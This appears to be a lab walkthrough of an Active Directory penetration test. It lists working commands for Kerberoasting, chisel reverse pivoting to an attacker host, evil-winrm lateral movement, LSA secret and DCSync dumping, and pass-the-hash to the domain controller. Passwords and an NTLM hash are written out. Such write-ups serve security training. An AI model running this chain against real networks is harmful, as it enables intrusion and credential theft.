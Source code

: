 - Before switching projects, our teammate left a password-protected web shell (with the credentials: 
- `admin`:`My_W3bsH3ll_P@ssw0rd!`) in place for us to start from in the `/uploads` directory.

# Attack
---
- Get meterpreter shell from antak
	- ![[Pasted image 20250817071322.png]]
 
## Kerberoasting
- Upload powerview.ps1
- Run:
	- `Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat`
- Copy and clean hashes. Run hashcat: (svc_sql)
	- ![[Pasted image 20250817075043.png]]

# Pivoting using chisel
---
- Pivot using chisel
- On Kali:
	- `chisel server --socks5 --reverse -p 9999`
- On Windows:
	- Transfer `chisel_windows.exe`
	- `.\chisel_windows.exe client 10.10.16.63:9999 R:socks`
# Login to MS01
---
- Ping MS01 to discover its IP from windows session, then:
- `proxychains4 evil-winrm -u svc_sql -p lucky7 -i 172.16.6.50`
- ![[Pasted image 20250817181137.png]]
# More User Credentials
---
- Use `netexec` or `secretsdump` with proxychains and extract LSA secrets:
	- `proxychains4 netexec smb 172.16.6.50 -u svc_sql -p lucky7 --lsa`
	- `proxychains4 impacket-secretsdump -outputfile inlanefreight_hashes svc_sql:lucky7@172.16.6.50`
	- ![[Pasted image 20250817183706.png]]
	- ![[Pasted image 20250817183720.png]]

# DC compromise
---
- This user has **DCSync rights**
- We can run secretsdump to get all the user hashes from domain:
	- ping `DC01` to get its IP
	- `proxychains4 impacket-secretsdump -outputfile inlanefreight_hashes2 tpetty:'Sup3rS3cur3D0m@inU2eR'@172.16.6.3 -just-dc-ntlm`
	- ![[Pasted image 20250817190712.png]]
- Login as administrator using PassTheHash:
	- `proxychains4 evil-winrm -u Administrator -H '27dedb1dab4d8545c6e1c66fba077da0' -i 172.16.6.3`
	- ![[Pasted image 20250817190748.png]]